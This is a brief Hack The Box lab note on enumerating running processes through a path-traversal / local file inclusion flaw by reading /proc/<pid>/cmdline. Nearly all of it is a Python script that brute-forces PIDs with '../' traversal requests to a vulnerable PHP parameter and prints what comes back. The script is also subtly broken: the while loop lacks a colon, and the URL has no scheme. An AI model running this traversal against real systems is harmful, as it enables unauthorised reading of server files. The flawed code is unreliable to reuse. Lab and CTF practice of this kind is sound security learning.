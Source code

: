 ### 20-03-23
### Hack The Box - path-traversal - enumuration over /proc/(number)/cmdline

/proc/(number)/cmdline - this path can be very helpful when you haven’t yet got terminal access to a box, it may be possible to see processes that are running on the box with local file inclusion if the vulnerability exists on the box. 
  
### proc_cmdline.py
  
```python
import requests

host = "test.htb/"
path = host + "vurn.php?img=../../../../../../../../../"

headers = {
    'Host': host,
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
}

i=1
while i < 10000
    response = requests.get(path + 'proc/'+str(i)+'/cmdline',headers=headers,verify=False,)
    if response.text:
        print (str(i),response.text)
    i = i + 1  
```
